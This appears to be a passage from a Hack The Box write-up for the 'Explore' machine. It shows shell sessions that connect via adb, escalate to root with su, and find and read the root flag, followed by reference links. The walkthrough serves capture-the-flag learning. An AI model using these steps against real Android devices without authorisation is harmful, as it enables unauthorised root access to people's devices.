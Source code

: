 - we can also take adb shell
```bash
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# adb shell            
x86_64:/ $ whoami
shell
x86_64:/ $
```

- from here we escalate to root using su command
- [privesec method adb ](https://opensourceforgeeks.wordpress.com/2015/11/10/how-to-run-adb-shell-always-as-a-root/)
```sql
╭─root@kali ~/Desktop/htb/Explore ‹master*› 
╰─# adb shell            
x86_64:/ $ su
:/ # whoami
root
:/ # find / -type f -name root.txt 2>/dev/null
/data/root.txt
1|:/ # cat /data/root.txt
f04f*************************8c5
:/ # 
```

# Use full links 
- https://opensourceforgeeks.wordpress.com/2015/11/10/how-to-run-adb-shell-always-as-a-root/
-  https://book.hacktricks.xyz/mobile-apps-pentesting/android-app-pentesting/adb-commands